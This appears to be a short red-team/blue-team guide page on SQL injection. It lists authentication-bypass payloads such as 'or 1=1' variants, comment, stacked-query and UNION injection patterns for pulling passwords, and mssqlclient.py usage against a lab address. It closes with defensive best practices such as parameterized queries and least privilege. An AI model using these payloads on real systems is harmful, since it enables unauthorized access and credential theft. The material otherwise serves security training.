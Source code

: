 # RedTeam

**>> Full Cheat Sheet: [www.netsparker.com/blog](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)**

## SQL Types
1. MySQL
2. SQL Server
3. PostgreSQL
4. Oracle
5. Others


## SQL Injection: Quick and Dirty
```
admin' --
admin' #
admin'/*
' or 1='1
' or 1=1--
' or 1=1#
' or 1=1/*
') or ‘1’ =’1--
') or (‘1’=’1--
' || 1=’1
```

## SQL Attack Patterns

#### Comment
```
1) --
2) /*  */
3) #
```

#### Combine Queries 
- `SELECT * FROM xyz ; SELECT * FROM abc`

#### UNION injections
- You can poison query to return records from different tables
- `SELECT username, admin FROM members UNION SELECT password, admin FROM members`


## Tools

#### mssqlclient.py
- `python3 mssqlclient.py USER@10.10.10.27 -windows-auth`
- `SELECT IS_SRVROLEMEMBER('sysadmin')`
   - Output "1" = yes

#### sqlmap

*Check out: [3_Exploitation/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md)*

<br />

# BlueTeam

## Best Practice

1. Use parameterized SQL Statements
2. Implement Input-Validation 
3. Minimal DB access rights 
4. Deactivate unnecessary standard features of your DB server
5. Patch your DB Server continuously

